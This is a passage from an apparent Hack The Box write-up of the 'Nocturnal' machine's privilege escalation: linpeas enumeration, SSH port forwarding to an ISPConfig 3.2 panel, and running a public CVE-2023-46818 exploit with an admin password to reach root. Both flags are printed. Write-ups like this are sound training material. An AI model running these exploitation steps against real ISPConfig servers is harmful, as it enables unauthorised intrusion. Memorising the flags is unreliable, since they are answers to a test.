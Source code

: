 
# PRIVILEGE ESCALATION
---

We can read user flag now:

```
tobias@nocturnal:~$ cat user.txt
67ca4e25ada7fa55f2f517f70d543c61
```

We can use `linpeas` to check for any PE vector:

![](cybersecurity/images/Pasted%2520image%252020250414174019.png)

Seems weird, if we keep analyzing the output from linpeas, we can see something called `ispconfig`, since we got another website open, let's use port forwarding to check the contents of it:

```
ssh tobias@nocturnal.htb -L 9090:127.0.0.1:8080
```

![](cybersecurity/images/Pasted%2520image%252020250414174209.png)

There we go, we are dealing with something called `ISPCONFIG`, we can try checking the version in the source code:

![](cybersecurity/images/Pasted%2520image%252020250414174241.png)

So, `ispconfig 3.2`, let's search for an exploit:

![](cybersecurity/images/Pasted%2520image%252020250414174330.png)

We got `CVE-2023-46818`, let's search an exploit and use it:

```
EXPLOIT: https://github.com/bipbopbup/CVE-2023-46818-python-exploit
```

![](cybersecurity/images/Pasted%2520image%252020250414174412.png)

Let's get it, we need to do this:

```
python exploit.py http://127.0.0.1:9090 admin slowmotionapocalypse
```

We can see this output:

![](cybersecurity/images/Pasted%2520image%252020250414174551.png)

There we go, we can finally read root shell and finish the CTF.

```
ispconfig-shell# cat /root/root.txt
041ca7b5f944f8bb87433bbfa856beab
```

https://www.hackthebox.com/achievement/machine/1872557/656


